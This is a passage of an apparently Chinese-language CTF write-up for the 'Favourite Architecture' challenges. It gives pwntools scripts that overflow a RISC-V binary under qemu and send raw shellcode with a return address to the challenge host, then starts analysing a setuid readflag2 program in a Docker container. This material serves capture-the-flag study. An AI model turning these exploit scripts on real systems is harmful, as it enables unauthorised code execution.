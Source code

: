 ```python
    ecall                       # Do syscalls: exit()
'''

sc = gen_shellcode(shellcode)
io.sendline(sc.ljust(288,b'a')+p64(0x4000800b48))
io.interactive()
```

> 汇编二进制版shellcode：

```python
from pwn import *
context(log_level="debug")
io = remote("10.10.10.1",60001)

sc  = b"\xb7\x84\xbb\x03\x9b\x84\xb4\x17"
sc += b"\xb6\x04\x93\x84\xd4\x56\xb2\x04"
sc += b"\x93\x84\x74\x6f\xb2\x04\x93\x84"
sc += b"\xf4\x82\x37\xe9\x19\x00\x1b\x09"
sc += b"\xb9\x85\x3a\x09\x13\x09\x39\x66"
sc += b"\x32\x09\x13\x09\xe9\xf6\x23\x38"
sc += b"\x91\xfe\x23\x3c\x21\xff\x13\x25"
sc += b"\xf0\xff\x93\x05\x01\xff\x13\x26"
sc += b"\xf0\xff\x93\x08\x80\x03\x73\x00"
sc += b"\x00\x00\x93\x05\xc1\xf9\x13\x06"
sc += b"\x40\x06\x93\x08\xf0\x03\x73\x00"
sc += b"\x00\x00\x05\x45\x93\x05\xc1\xf9"
sc += b"\x13\x06\x40\x06\x93\x08\x00\x04"
sc += b"\x73\x00\x00\x00\x93\x08\xd0\x05"
sc += b"\x73\x00\x00\x00"

io.sendline(sc.ljust(288,b'a')+p64(0x4000800b48))
io.interactive()
```

### Favourite Architecture 2

题目要求：Execute /readflag2

#### 分析

- 题目进程是pwn用户
- flag2在系统根目录，只有root用户能读
- readflag2是x86_64的特权程序（带s权限位），可读flag2

可以在docker中测试：

```c
root@0de2a597a22a:/# ls -al flag2
-r-------- 1 root root 6 Jan 15 16:43 flag2
root@0de2a597a22a:/# ls -al readflag2
-rwsr-xr-x 1 root root 8504 Jan 15 14:47 readflag2
root@0de2a597a22a:/# ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 Jan23 ?        00:00:00 /usr/sbin/xinetd -dontfork
root       149     0  0 14:30 pts/0    00:00:00 bash
root       355     0  0 19:23 pts/1    00:00:00 bash
pwn        370     1  0 19:24 ?        00:00:00 /bin/bash ./entry
pwn        371   370  0 19:24 ?        00:00:00 timeout 30 ./qemu-riscv64 main
pwn        372   371  0 19:24 ?        00:00:00 ./qemu-riscv64 main
root       379   355  0 19:24 pts/1    00:00:00 ps -ef
root@0de2a597a22a:/# su pwn
$ cat /flag2
cat: /flag2: Permission denied
$ ./readflag2
flag2
```